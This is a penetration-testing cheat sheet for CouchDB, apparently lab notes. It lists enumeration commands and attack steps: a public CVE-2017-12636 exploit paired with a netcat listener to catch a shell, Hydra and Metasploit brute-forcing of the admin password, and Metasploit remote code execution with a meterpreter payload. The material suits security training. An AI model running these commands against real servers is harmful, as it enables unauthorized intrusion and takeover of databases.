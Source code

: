# 5984, 6984 (CouchDB)

## Enumeration

### Automatic

```bash
nmap -sV --script couchdb-databases,couchdb-stats -p <PORT> <IP>
msf> use auxiliary/scanner/couchdb/couchdb_enum
```

### Manual

```bash
curl http://<IP>:5984
# Banner grab (Can also open in a browser)
curl http://<IP>:5984/_all_dbs
# List of all the databases
curl http://user:password@<IP>:5984/_all_dbs
# List of all the databases with authentication
curl http://<IP>:5984/<DB name>
# List database information
curl http://<IP>:5984/<DB name>/_all_docs
# List each entry inside of a database
curl http://<IP>:5984/<DB name>/<ID>
# Read content of a document in a database
curl http://10.10.202.192:5984/_utils/
# Path for the web administration tool
```

## Exploitation

### Unprotected

#### CVE-2017-12636

Since we should have administrative access here we should be able to find an exploit to execute.

* Found: [https://github.com/moayadalmalat/CVE-2017-12636](https://github.com/moayadalmalat/CVE-2017-12636)
* Download code and update the **target** and **command** variables in the script
* Start a netcat listener: `nc -lvnp 4444`
* Run the exploit: `python3 exploit.py`

### Protected

Since we do NOT have access we will need to get access.

#### Brute Force

Hydra

```bash
hydra -l admin -P /opt/100-common-passwords.txt -s 5984 -f <IP> http-get /_utils
# And we get the password
```

Metasploit

```bash
use auxiliary/scanner/couchdb/couchdb_login
set RHOSTS demo2.ine.local
set USERNAME admin
set PASS_FILE /root/Desktop/wordlists/100-common-passwords.txt
set STOP_ON_SUCCESS True
set VERBOSE true
exploit
```

#### RCE

Metasploit

```bash
search couchdb
use exploit/linux/http/apache_couchdb_cmd_exec
set PAYLOAD linux/x64/meterpreter/bind_tcp
set RHOSTS <IP>
set LHOST <IP>
set httpusername admin
set httppassword madalina
exploit
```
